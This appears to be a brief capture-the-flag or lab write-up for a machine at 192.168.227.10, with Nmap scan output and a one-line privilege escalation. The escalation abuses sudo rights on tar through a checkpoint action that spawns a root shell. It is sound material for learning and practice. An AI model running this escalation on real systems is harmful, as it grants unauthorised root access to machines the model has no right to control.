 
# Host:
```
192.168.227.10
```

# Nmap
```
Nmap scan report for 192.168.227.10
Host is up, received user-set (0.043s latency).
Scanned at 2024-07-06 15:26:18 IST for 508s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 
80/tcp   open  http            syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
9090/tcp open  ssl/zeus-admin? syn-ack ttl 61
```

After getting access through ssh we can check for sudo privileges:
![](../attachment/77509bd892d3b346cdf2e5ea49b1ded5.png)
Now we can check gtfo bins and run the following command to get root:
```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![](../attachment/435d09d1bd5480f3bc3868704dabd679.png)

